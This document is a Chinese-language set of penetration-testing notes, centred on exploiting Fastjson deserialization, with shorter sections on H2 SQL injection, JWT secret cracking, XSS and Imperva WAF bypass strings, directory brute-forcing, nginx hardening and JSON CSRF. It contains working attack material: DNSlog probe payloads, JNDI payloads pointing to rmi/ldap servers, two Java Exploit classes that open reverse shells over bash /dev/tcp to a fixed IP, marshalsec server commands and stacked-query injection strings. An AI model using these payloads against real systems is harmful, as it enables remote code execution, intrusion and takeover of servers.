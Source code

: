 ******************
渗透测试
******************
渗透测试的技巧和工具。


fastjson专题
===============

.. tip:: 建议在Linux下操作，我再Windows上操作好久没复现出来，遇到很多坑，最后在Linux成功复现，后来检查貌似是编译的class文件有问题。系统版本：kali-2020.3  jdk版本：jdk-8u151-linux-x64.tar.gz


1. 检查和利用脚本（谨慎使用，测试结果存在泄露风险，毕竟调用的是别人的API）::
   `github <https://github.com/mrknow001/fastjson_rec_exploit.git>`_ 

2. 探测Fastjson::
   
.. code-block:: json

	{"rand1":{"@type":"java.net.InetAddress","val":"http://dnslog"}}

	{"rand2":{"@type":"java.net.Inet4Address","val":"http://dnslog"}}

	{"rand3":{"@type":"java.net.Inet6Address","val":"http://dnslog"}}

	{"rand4":{"@type":"java.net.InetSocketAddress"{"address":,"val":"http://dnslog"}}}

	{"rand5":{"@type":"java.net.URL","val":"http://dnslog"}}

	//一些畸形payload，不过依然可以触发dnslog：
	{"rand6":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}

	{"rand7":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}

	{"rand8":Set[{"@type":"java.net.URL","val":"http://dnslog"}

	{"rand9":{"@type":"java.net.URL","val":"http://dnslog"}:0

参考链接： `Fastjson 反序列化漏洞史 <https://paper.seebug.org/1192/>`_ 

3. 无需开启AutoType::
   
.. code-block:: json

	{
	    "a":{
	        "@type":"java.lang.Class",
	        "val":"com.sun.rowset.JdbcRowSetImpl"
	    },
	    "b":{
	        "@type":"com.sun.rowset.JdbcRowSetImpl",
	        "dataSourceName":"rmi://172.20.16.121:8000/Exploit",
	        "autoCommit":true
	    }
	}

   
4. fastjson反弹shell

     a) 安装JDK8,编辑Exploit.java，编译成Exploit.class：javac Exploit.java。在Exploit.class文件目录下运行python服务器：python3 -m http.server 80（python2 -m SimpleHTTPServer 80）

反弹shell①::

	.. code-block:: java

	    import javax.naming.Context;
		import javax.naming.Name;
		import javax.naming.spi.ObjectFactory;
		import java.io.IOException;
		import java.util.Hashtable;
		 
		 
		public class Exploit{
		    public Exploit() {}
		 
		    static
		    {
		        try {
		            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
		                    ? new String[]{"cmd.exe","/c", "calc.exe"}
		                    : new String[]{"bash", "-c", "/bin/bash -i >&amp; /dev/tcp/172.20.16.121/8000 0>&amp;1"};
		                    //: new String[]{"bash", "-c", "/bin/bash -i >& /dev/tcp/172.20.16.121/8000 0>&1"};
		            Runtime.getRuntime().exec(cmds);
		        } catch (Exception e) {
		            e.printStackTrace();
		        }
		    }
		 
		    //public static void main(String[] args) {
		       // Exploit e = new Exploit();
		        //System.out.println("hello world");
		  //  }
		}
反弹shell②::

	.. code-block:: java
	
	    import javax.naming.Context;
		import javax.naming.Name;
		import javax.naming.spi.ObjectFactory;
		import java.io.IOException;
		import java.util.Hashtable;
		import java.net.InetAddress;
		 
		 
		public class Exploit{
		    public Exploit() {}
		 
		    static
		    {
		        try {
		            String[] cmds = new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/172.20.16.121/8000;cat <&5 | while read line; do $line 2>&5 >&5; done"};
		            //String[] cmds = new String[]{"/bin/sh","-c", "ping mytest.42e9vz.dnslog.cn"};
		        	Runtime.getRuntime().exec(cmds);
		        } catch (Exception e) {
		            e.printStackTrace();
		        }
		    }
		 
		//    public static void main(String[] args) {
		//        Exploit e = new Exploit();
		//        //System.out.println("hello world");
		//    }
		}
	 b) 安装Maven，git下载marshalsec，切换到pom文件目录下，打包构建：mvn clean package -DskipTests（具体可以查看READEME文件），打包后到target目录下找到jar包。
    
     c) 运行ldap或者rmi服务，端口7776。 http://172.20.16.121/#Exploit 为之前运行的python服务，IP换成自己的地址::  
        
        java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://172.20.134.239/#Exploit 7776
     d) burpsuite发送payload::
        
	       {
		    "name":{
		        "@type":"java.lang.Class",
		        "val":"com.sun.rowset.JdbcRowSetImpl"
		    },
		    "x":{
		        "@type":"com.sun.rowset.JdbcRowSetImpl",
		        "dataSourceName":"ldap://172.20.16.121:7776/Exploit",
		        "autoCommit":true
		    }
		}


参考链接： 

- `vulnhub <github.com/vulhub/vulhub>`_
- `fastjson漏洞复现 <https://saucer-man.com/information_security/346.html>`_  
- `Fastjson系列四——1.2.25-1.2.47反序列化漏洞（无需开启AutoType） <https://www.mi1k7ea.com/2019/11/11/Fastjson%E7%B3%BB%E5%88%97%E5%9B%9B%E2%80%94%E2%80%941-2-25-1-2-47%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88%E6%97%A0%E9%9C%80%E5%BC%80%E5%90%AFAutoType%EF%BC%89/>`_ 
- `cve-2019-14540-exploit <https://github.com/LeadroyaL/cve-2019-14540-exploit>`_
- `fastjson 反弹shell <https://www.cnblogs.com/mysticbinary/p/12788019.html>`_ 
- `marshalsec <https://github.com/mbechler/marshalsec>`_ 
- `fastjson-blacklist <https://github.com/LeadroyaL/fastjson-blacklist>`_ 
- `Fastjson 反序列化漏洞史 <https://paper.seebug.org/1192/>`_ 
- `ysoserial <https://github.com/frohoff/ysoserial>`_ 
- `Java-Deserialization-Cheat-Sheet <https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet>`_ 
- `fastjson漏洞复现 <https://saucer-man.com/information_security/346.html>`_ 
- `vulhub -- fastjson/1.2.24-rce <https://github.com/vulhub/vulhub/tvulnhub -- ree/master/fastjson/1.2.24-rce>`_ 
- `fastjson 1.2.47 rce <https://blog.th3wind.xyz/posts/1479992369.html>`_ 
- `Fastjson历史漏洞研究（一） <http://blog.topsec.com.cn/fastjson%e5%8e%86%e5%8f%b2%e6%bc%8f%e6%b4%9e%e7%a0%94%e7%a9%b6%ef%bc%88%e4%b8%80%ef%bc%89/>`_ 

爬虫代理池ysoserial
============

1. `github <https://github.com/jhao104/proxy_pool>`_ 

H2数据库盲注
============
1. 创建函数::

	method=pullmsg&udid=-2';CREATE ALIAS test AS $$ @CODE void sleeptest() throws Exception{ Thread.sleep(3000);}$$;--

2. 调用函数::

	method=pullmsg&udid=-1';select test();--

3. 命令执行::

	https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

SQLmap
========
1.指定参数

JWT(Json Web Token)安全
=======================

1. jwt解析和生成网站::

	http://jwt.io
	
3. jwt secret破解::

	https://github.com/brendan-rius/c-jwt-cracker

关闭火狐浏览器网络检测
========================

在搜索地址栏输入about:config
搜索 network.captive-portal-service.enabled，并将值设为false


一句话payload
===============
一句话payload同时检查SQL注入、xss等漏洞::

	'"><svg onload=prompt(5);>{{7*7}} 

imperva绕过
===============
imperva WAF绕过payload

.. code-block:: js

	<a href=javas&Tab;cript:confirm(1) >  //--tab按键和空格等特殊字符
	<details open ontoggle=alert(1)>      //待确认，目前未能绕过
	<details open ontoggle=top['al'+'ert']('1')> //待确认，目前未能绕过


目录暴破
========

**dirb和dirbuster字典中如果存在以 # 号开头的需要做特殊处理**，以#开头的可能会被判断为注释，eg：http://examples.com/#/list

1. druid未授权访问
	- /druid/weburi.html
	- /druid/index.html
	- /swagger-ui.html#
2. Tomcat示例文件
	- /docs
	- /examples
3. Actuator端点未授权访问
	/dump 		显示线程转储（包括堆栈跟踪）
	/trace 		显示最后几条HTTP消息（可能包含会话标识符）
	/logfile 	输出日志文件的内容
	/shutdown	关闭应用程序
	/mappings	显示所有MVC控制器映射
	/env 		提供对配置环境的访问
	/restart 	重新启动应用程序

部分版本需要加上 **/actuator/** dump

4. 只接受GET/POST请求

.. code-block:: js

	if ($request_method !~* GET|POST) {
     	return 403;
	}

5. 确保网站没有被嵌入到别人的站点里面，从而避免 clickjacking 攻击::

	add_header X-Frame-Options "SAMEORIGIN";

6. 禁止其他站点访问您的资源::

	add_header Access-Control-Allow-Origin "SAMEORIGIN";

7. 在Web服务器防止Host头攻击::

	if ($http_Host !~* ^域名1$|^域名2$|^IP1:端口$)
  	{
  		return 403;
  	}


csrf
========

json csrf
-----------

1. POSTbody需要以JSON格式发送，而这种格式如果用HTML表单元素来构建的话会比较麻烦。

2. Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests，而它还会向服务器端发送OPTIONS预检请求，服务器不响应OPTIONS请求。


3. 需要注意的是，在原始的数据包里Content-Type的值是application/json，而以form去提交是没法设置enctype为application/json的，在这里设置为text/plain，那么如何设置Content-Type的值呢

4. 需要注意的是，该请求中的Content-Type头被设置成了application/x-www-form-urlencoded，因为服务器需要接收URL编码后的HTML表单数据。

5. 那我们为何不能使用这个PoC来利用JSON端点中的CSRF呢？原因如下：
   
   a) POSTbody需要以JSON格式发送，而这种格式如果用HTML表单元素来构建的话会比较麻烦。
   b) Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests，而它还会向服务器端发送OPTIONS预检请求。

6. 解决方案swf_jason_csrf
   
参考链接：`swf_json_csrf <https://github.com/sp1d3r/swf_json_csrf>`_ ::

	# GitHub下载部署
	https://github.com/sp1d3r/swf_json_csrf
	# 请求方式
	http://127.0.0.1/read.html?jsonData={%22roleId%22:8}&php_url=http://127.0.0.1/test.php&endpoint=https://flyhi.com/



参考链接::
	
	https://www.cnblogs.com/blacksunny/p/7930126.html
	https://www.freebuf.com/articles/web/164234.html
